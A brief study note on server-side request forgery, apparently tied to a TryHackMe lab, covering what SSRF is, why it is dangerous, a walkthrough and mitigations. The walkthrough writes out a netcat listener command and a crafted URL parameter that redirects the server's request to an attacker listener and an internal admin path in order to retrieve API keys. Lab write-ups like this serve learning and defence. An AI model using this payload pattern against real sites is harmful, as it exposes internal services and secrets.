 # Server-Side Request Forgery (SSRF)

## What is it?
- When a webapp can be tricked into making request on behalf of users to arbitary destinations while having control of the contents of requests itself then it's called SSRF.

## Why is it dangerous?
- Can be used to access internal services not exposed publicly.
- Steal sensitive data like API keys.
- Lead to remote code execution if internal services are vulnerable.

##  What I did in TryHackMe:
- Identified that accessing /admin was restricted to localhost.
- Found server=secure-file-storage.com parameter in a download URL.
- Set the netcat listener (nc -lvnp 4444)
- Intercepted the request, redirected it to my AttackBox listener using server=http://<my-ip>:4444/download?server=http://localhost:4444/admin%23&id=75482342
- Retrieve the API Keys and flag.

# Mitigation
- Whitelist allowed remote hosts.
- Sanitize input URLs.
- Enforce internal routing controls.
